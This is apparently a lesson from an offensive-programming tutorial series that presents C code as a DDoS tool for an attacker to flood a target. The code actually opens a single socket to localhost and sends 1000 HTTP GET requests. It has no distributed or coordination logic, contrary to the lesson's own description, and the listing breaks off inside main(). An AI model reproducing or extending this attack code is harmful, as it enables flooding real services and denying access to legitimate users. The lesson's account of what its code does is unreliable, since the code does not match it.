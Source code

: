 ### Lesson 26: Building a Distributed Denial of Service (DDoS) Tool in C

In this lesson, we'll continue from the Denial of Service (DoS) tool and extend it to create a Distributed Denial of Service (DDoS) tool in C programming. A DDoS attack involves coordinating multiple sources to flood a target system or network with malicious traffic, making it inaccessible to legitimate users. Our tool will enable a single attacker to control and orchestrate multiple systems to launch a coordinated DDoS attack against a target.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

#define TARGET_IP "127.0.0.1"
#define TARGET_PORT 80
#define NUM_REQUESTS 1000

// Function to perform a DDoS attack
void perform_ddos() {
    int sockfd;
    struct sockaddr_in target_addr;

    // Create socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("Error creating socket");
        exit(EXIT_FAILURE);
    }

    // Initialize target address structure
    memset(&target_addr, 0, sizeof(target_addr));
    target_addr.sin_family = AF_INET;
    target_addr.sin_addr.s_addr = inet_addr(TARGET_IP);
    target_addr.sin_port = htons(TARGET_PORT);

    // Connect to the target
    if (connect(sockfd, (struct sockaddr *)&target_addr, sizeof(target_addr)) < 0) {
        perror("Error connecting to target");
        exit(EXIT_FAILURE);
    }

    // Send a large number of requests
    for (int i = 0; i < NUM_REQUESTS; i++) {
        if (send(sockfd, "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n", strlen("GET / HTTP/1.1\r\nHost: example.com\r\n\r\n"), 0) < 0) {
            perror("Error sending request");
            exit(EXIT_FAILURE);
        }
    }

    // Close the socket
    close(sockfd);
}

int main() {
    printf("Starting Distributed Denial of Service (DDoS) attack...\n");

    // Perform the DDoS attack
    perform_ddos();
```